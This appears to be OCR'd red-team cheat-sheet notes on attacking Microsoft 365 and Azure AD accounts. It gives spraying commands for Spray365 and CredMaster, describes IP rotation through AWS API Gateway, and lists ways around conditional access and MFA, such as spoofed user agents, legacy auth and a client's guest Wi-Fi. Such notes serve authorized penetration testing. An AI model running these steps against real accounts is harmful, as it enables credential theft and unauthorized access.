 - https://github.com/MarkoH17/Spray365  
Spray365 is a password spraying tool that identifies valid credentials for Microsoft accounts (Office 365 / Azure AD).  
Spray365 enables passwords to be sprayed from an "execution plan".  

Password spraying using credmaster and AWS API gateway as a pass-through HTTP proxy
```
CredMaster$ python3 credmaster.py --plugin o365enum --access_key XXXXXXX --secret_access_key XXXXXXX -u emailsMcMillan.txt -a useragents.txt
```

--> IP rotation using AWS API gateway: https://bigb0sss.github.io/posts/redteam-rotate-ip-aws-gateway/

##### Generating execution plan  
```
$ python3 spray365.py -g <path_for_saved_execution_plan> -d <domain_name> -u <file_containing_usernames> -pf <file_containing_passwords>
```  

##### Spraying an execution plan  
```
$ python3 spray365.py -s <path_to_execution_plan>
```  

### Bypassing conditional access
- https://danielchronlund.com/2022/01/07/the-attackers-guide-to-azure-ad-conditional-access/

- Change user agent to Android/Iphone user agent.
- Change location, to specific client location. (US, Canada based IP)
- Legacy Auth (EAS, EWS, Outlook for Mac)  
- Use customer Wireless Guest network (trusted IP addresses)

--> The [Roadrecon](https://github.com/dirkjanm/ROADtools) tool (*dirkjanm*) is capable of gathering and parsing Condtional Access Policies (Azure AD account required.)  
```
PS C:\ > roadrecon plugin policies  
```

- https://www.trustedsec.com/blog/common-conditional-access-misconfigurations-and-bypasses-in-azure/
- https://misconfig.io/bypass-the-cloud-azure-ad-condtional-access-scenario/

### Bypassing MFA
- https://github.com/silverhack/donkeytoken
  
**Use Guest wireless network**: MFA users don’t need to accept an MFA request each time they log in to a cloud workload if they are working from a trusted location.  

The below technique is not working anymore but can still be tested in case some conditional access policy allow authentication from PowerShell without MFA.
- Use directly powershell AZ module
```
$credential = Get-Credential  
Connect-AzAccount -Credential $credential
```
 